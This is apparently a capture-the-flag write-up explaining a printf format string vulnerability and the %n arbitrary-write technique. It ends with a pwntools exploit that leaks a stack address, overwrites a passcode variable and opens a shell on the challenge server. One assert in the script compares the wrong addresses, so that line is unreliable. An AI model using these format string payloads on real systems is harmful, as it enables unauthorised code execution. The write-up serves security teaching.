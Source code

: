 # Printf

As the name suggests, this is a straightforward format string vulnerability:

``` C
    scanf("%99s", buf);
    // [...]
    printf(buf);
    printf("\n");
```

An easy way to confirm our hypothesis (for instance if we did not have access to
either the binary or the source code) would be to pass a format string like `%p`
as input and look for some hex-formatted pointer (or `(nil)`) in the output.


Half the job is already done for us, as our only task is to overwrite a single
integer in order to be offered a shell:

``` C
  if (passcode == 40) {
    get_shell();
  }
```


The main ingredients of our exploit are the following:
1. The `%n` format directive. This is what makes format string attacks possible:
`printf("foo%n", &some_integer)` writes the number of bytes written so far by
`printf` (here `3`) to the `some_integer` variable. If we control the pointer
(`&some_integer`), we have arbitrary write capacity.
2. The `-` format modifier to `%s`. This allows us to control the number of
bytes output by `printf`, and therefore the value we will write using `%n`:
`printf("%-40s")` outputs exactly `40` characters regardless of the value of the
corresponding parameter (with the caveat that the parameter must still be a
valid pointer, otherwise it would segfault).
3. On `x86`, the function arguments are passed on the stack. Upon calling
`printf`, the first argument is located at `$ebp+8` (memory at `$ebp` contains
the calling function's saved `$ebp` and memory at `$ebp+4` cotains the calling
function's saved `$eip`), and subsequent arguments are located at `$ebp+12`,
`$ebp+16`, etc. Since `printf`s format string is parsed at runtime, each format
directive is simply translated as accessing an offset from `$ebp`, and printing
the formatted value at that address, no bounds checking being performed.
Therefore, by controlling the format string, we can access any memory location
at address `$ebp + 8 + 4*k` for `k >= 0`. This means in particular that we can
access values in the calling function's stack frame, including the calling
function's calling function's saved `$ebp`, which means we ca always find an
index `k` such that the memory value at `$ebp + 8 + 4*k` is an address at a
constant offset of `$ebp`. This will come in handy when we want to leak the
address of our target to bypass ASLR.
On `amd64` (System V ABI), things work roughly the same way, except that the
pointers are `8` bytes instead of `4`, and the first `6` parameters are passed
through registers (`$rdi, $rsi, $rdx, $rcx, $r8, $r9`), so the `7`th format
directive corresponds to the value at address `$rbp+16` (and the first `6`
correspond to the values in the above registers).
4. Explicit parameter indexes in format directives. This allows us to access
arbitrary parameters (or any value on the stack past the first parameter's
address, really) wihout clogging our payload: `printf("%2$p", 0xbad, 0xbeef)`
prints `0xbeef`. More generally, we can access the value at address
`$rbp + 16 + k * 8` directly, e.g. `%10$p` for `$rbp + 16 + 32` (keeping in mind
that the first index corresponding to a stack parameter is `7`, so our indexes
are shifted by 6).
5. The fact that `scanf("%s", buf)` null-terminates the input string. While
`scanf` treats null bytes as string delimiters, we cannot input null bytes to
our buffer. However, we can have `scanf` write one null byte for us at an
arbitrary offset by supplying an input of length that offset minus one.
Practically, input `AAA` will write a null byte in `buf[3]`.


From there, the protocole is simple:
1. figure out the argument index for `buf` from within printf (using
format `AAAAAAAABBBBBBBB%1$p %2$p [...]`),
2. leak an address on the stack at a constant offset from the `passcode`
variable,
3. craft a payload that writes our target address at an aligned address so that
we can access it through `%10$n`. Since this is a 64bit binary, the stack
addresses will start with some null bytes, which `scanf()` will interpret as
string delimiters. Luckily, `scanf("%s")` will also null-terminate the input,
and since the binary is running on a little-endian platform, we can do this in
two steps: 1. null the last byte (`AAAAAAA`), 2. write the six least significant
bytes and have the null-termination zero-out the 7th.

Finally, with our target address available at parameter index `10`, we can
simply use a combination of `%-40s` (which will output 40 bytes no matter what)
and `%10$n`, which will write the number of bytes written by printf to the
address we carefuly selected.


Python exploit:

``` python
from pwn import *

p = remote('printf-34c9a9bc71372d47.elb.us-west-1.amazonaws.com', 666)

PROMPT = b"Enter a string (or 'quit')\n"
p.recvuntil(PROMPT)
p.sendline("%25$p")
addr = int(p.readline(), 16)
log.info(f"Leaked stack addr: {hex(addr)}")

# The offset is computed by inspecting the value of `$25$p` locally with
# that of `$rbp-0x74` in gdb.
password_addr = addr - 0x15c
log.info(f"Computed target addr: {hex(password_addr)}")

# Zero-out the last byte of the third 8-byte block.
p.recvuntil(PROMPT)
p.sendline(b"A" * 23)

p.recvuntil(PROMPT)
p.sendline(b"A" * 16 + p64(password_addr))

# Let's make sure we wrote the correct address:
p.recvuntil(PROMPT)
p.sendline(b"%10$p")
loaded_addr = int(p.readline(), 16)
assert addr == loaded_addr

# Set counter to 40 and write to loaded addr.
p.recvuntil(PROMPT)
p.sendline(b"%-40s%10$n")

# Exit loop and pop that sweet shell.
p.recvuntil(PROMPT)
p.sendline("quit")

p.interactive()
```
